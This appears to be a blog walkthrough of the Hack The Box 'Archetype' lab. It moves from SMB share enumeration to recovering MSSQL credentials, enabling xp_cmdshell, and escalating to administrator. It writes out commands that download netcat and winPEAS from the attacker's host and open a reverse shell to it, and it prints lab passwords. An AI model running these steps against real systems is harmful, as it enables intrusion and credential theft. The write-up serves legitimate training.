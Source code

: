 ```yaml
---
layout: post
title: 'HTB | Archetype'
permalink: /ctf/htb/starting-point/archetype/
---
```



# Enumeration

The nmap will show us:
{% highlight bash %}
> nmap -sV 10.129.221.7 -oN nmap 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 11:45 EST
Nmap scan report for 10.129.221.7
Host is up (0.049s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
{% endhighlight %}

We will try to see which folders are share.
{% highlight bash %}
> smbclient -L //10.129.221.7/
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

{% endhighlight %}

And then try to connect to **backups**:
{% highlight bash %}
> smbclient //10.129.221.7/backups/
smb: \> ls
smb: \> get prod.dtsConfig
smb: \> exit
> cat prod.dtsConfig  
{% endhighlight %}

There we can see:
{% highlight plain %}
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
{% endhighlight %}



Now we can try to login with the scripts **mssqlclient.py**.
We will use the credentials provides by the **prod.dtsConfig** file.
{% highlight bash %}
> sudo python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.221.7 -windows-auth
{% endhighlight %}

# Foothold

Now we are in the SQL server. With the command **xp_cmdshell** we can try to execute the shell, but we will recieve the following error:
{% highlight mysql %}
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell'
{% endhighlight %}

Now we need to activate xp_cmdshell. With the following command we can see all the config aviable.
{% highlight mysql %}
SQL> sp_configure
{% endhighlight %}

We need to activate the advanced options:
{% highlight mysql %}
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
{% endhighlight %}

And then we can activate the shell:
{% highlight mysql %}
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
{% endhighlight %}

Now we can get the **user flag**:
{% highlight mysql %}
SQL> xp_cmdshell type C:\Users\sql_svc\Desktop\user.txt
{% endhighlight %}

We will make a reverse shell.
First we will start a nc in the port 443.
{% highlight bash %}
> sudo nc -lvnp 443
{% endhighlight %}

Now we will create a http server in the same folder where we have the **nc64.exe** file.
{% highlight bash %}
> sudo python3 -m http.server 80 
{% endhighlight %}

We need to download that file in the server. Because we don't have root access we will use the normal user.
{% highlight mysql %}
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.88/nc64.exe -outfile nc64.exe"
{% endhighlight %}

The **http.server** will receive the following line:
{% highlight plain %}
10.129.221.7 - - [28/Feb/2022 12:51:53] "GET /nc64.exe HTTP/1.1" 200 -
{% endhighlight %}

Now we execute the command and send the cmd to the 443 port (where we are listening):
{% highlight mysql %}
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.88 443"
{% endhighlight %}

# Privilege Escalation

Now we will need to use **winPEAS** to do the privilege escalation. We will change the prompt to powershell, and download the file.
{% highlight batch %}
C:\Users\sql_svc\Downloads>powershell
PS C:\Users\sql_svc\Downloads> wget http://10.10.14.88/winPEASx64.exe -outfile winPEASx64.exe
{% endhighlight %}

In the http.server we can see that works:
{% highlight batch %}
C:\Users\sql_svc\Downloads>powershell
10.129.221.7 - - [28/Feb/2022 13:01:29] "GET /winPEASx64.exe HTTP/1.1" 200 -
{% endhighlight %}

No we will execute the script:
{% highlight batch %}
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
{% endhighlight %}

We can check the shell history for credentials (like **.bash_history**).
{% highlight batch %}
PS C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
        net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
{% endhighlight %}

With the password we have now we will use another script from impacket, **psexec.py**:
{% highlight bash %}
> python3 psexec.py administrator@10.129.221.7
{% endhighlight %}

We can use the password from before and now we are in the Administrator user:
{% highlight batch %}
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
{% endhighlight %}
